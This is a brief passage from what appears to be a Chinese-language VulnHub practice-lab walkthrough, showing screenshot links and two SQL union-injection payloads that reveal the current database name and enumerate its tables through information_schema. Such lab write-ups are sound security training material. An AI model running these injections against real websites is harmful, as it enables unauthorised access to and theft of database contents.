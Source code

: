 ![image-20241207183527128](vulnhub靶场实战/image-20241207183527128.png)	

```
查看当前的数据库是哪个
' union select 1,2,3,database(),5,6,7,8#
```

![image-20241207183611774](vulnhub靶场实战/image-20241207183611774.png)	

```
查询当前数据库有哪些表。
' union select 1,2,3,table_name,5,6,7,8 from information_schema.tables where table_schema=database()#
```
